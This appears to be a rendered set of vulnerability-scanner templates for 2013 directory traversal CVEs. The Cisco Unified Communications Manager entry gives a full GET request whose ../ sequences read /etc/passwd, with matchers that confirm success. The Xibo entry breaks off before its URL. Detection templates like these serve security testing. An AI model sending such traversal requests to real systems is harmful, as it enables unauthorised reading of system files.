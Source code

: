 # Cisco Unified Communications Manager 7/8/9 - Directory Traversal

## Description

- A directory traversal vulnerability in the Tomcat administrative web interface in Cisco Unified Communications Manager allows remote authenticated users to read arbitrary files via directory traversal sequences in an unspecified input string, aka Bug ID CSCui78815
- severity - high
- tags - cve,cve2013,lfi,cisco,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/ccmadmin/bulkvivewfilecontents.do?filetype=samplefile&fileName=../../../../../../../../../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Xibo 1.2.2/1.4.1 - Directory Traversal

## Description

- A directory traversal vulnerability in Spring Signage Xibo 1.2.x before 1.2.3 and 1.4.x before 1.4.2 allows remote attackers to read arbitrary files via a .. (dot dot) in the p parameter to index.php.
- severity - high
- tags - cve,cve2013,lfi,edb

## Requests

- Method - GET

### URL
